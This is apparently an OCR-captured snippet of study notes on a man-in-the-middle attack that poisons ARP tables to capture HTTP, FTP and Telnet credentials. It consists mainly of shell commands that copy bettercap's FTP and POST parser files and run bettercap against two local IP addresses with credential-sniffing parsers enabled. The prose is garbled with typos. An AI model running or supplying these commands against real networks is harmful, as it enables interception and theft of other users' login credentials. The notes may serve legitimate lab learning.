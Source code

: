 Caputre credentials for HTTP, FTP, Telnet requestes

MITN is to spoof a MAC address of the gateway device to be our attacker machine in thearp-spoof arp-poipsing

```sh
cp /usr/lib/ruby/vendor_ruby/bettercap/sniffer/parsers/ftp.rb .
cp /usr/lib/ruby/vendor_ruby/bettercap/sniffer/parsers/post.rb .
```

```sh
sudo bettercap -X -I eth0 -T 192.168.45.68,192.168.45.69 -P post,ftp,telnet
```